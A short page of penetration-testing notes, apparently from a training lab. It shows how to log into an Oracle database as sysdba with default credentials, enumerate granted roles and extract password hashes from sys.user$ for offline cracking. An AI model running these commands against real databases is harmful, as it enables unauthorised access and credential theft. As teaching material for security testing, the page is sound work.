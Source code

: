 ### **Oracle RDBMS - Database Enumeration**

```python
[!bash!]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

we could retrieve the password hashes from the sys.user$ and crack online

### **Oracle RDBMS - Extract Password Hashes**

```python
SQL> select name, password from sys.user$;NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

